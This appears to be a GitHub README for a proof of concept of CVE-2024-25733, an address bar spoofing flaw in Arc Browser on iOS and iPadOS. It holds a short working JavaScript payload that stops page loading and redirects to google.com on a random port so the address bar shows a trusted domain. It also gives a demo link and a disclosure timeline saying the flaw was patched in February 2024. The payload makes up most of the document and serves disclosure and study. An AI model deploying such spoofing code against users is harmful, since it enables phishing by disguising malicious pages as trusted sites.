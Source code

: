 # ARC-Browser-Address-Bar-Spoofing-PoC (CVE-2024-25733)
ARC Browser Address Bar Spoofing PoC - iOS/iPadOS

## Exploit PoC (Proof of Concept)

```html
<script>
    function spoof() {
        setTimeout(() => {
            window.stop();
            let randomPort;
            do {
                randomPort = Math.floor(Math.random() * 1000);
            } while (randomPort === 0 || randomPort === 443);
            document.location = "https://google.com:" + randomPort + "/";
        }, 300);
    }
    spoof();
</script>
```

## DEMO

<a href="https://github.com/hackintoanetwork/ARC-Browser-Address-Bar-Spoofing-PoC/raw/main/PoC.mp4">PoC.mp4</a>
<br>
<br>


## TimeLine
 - 2024-01-25 : Vulnerability reported to The Browser Company of New York
 - 2024-01-25 : Recognized as a security vulnerability
 - 2024-02-13 : Patched in the latest release
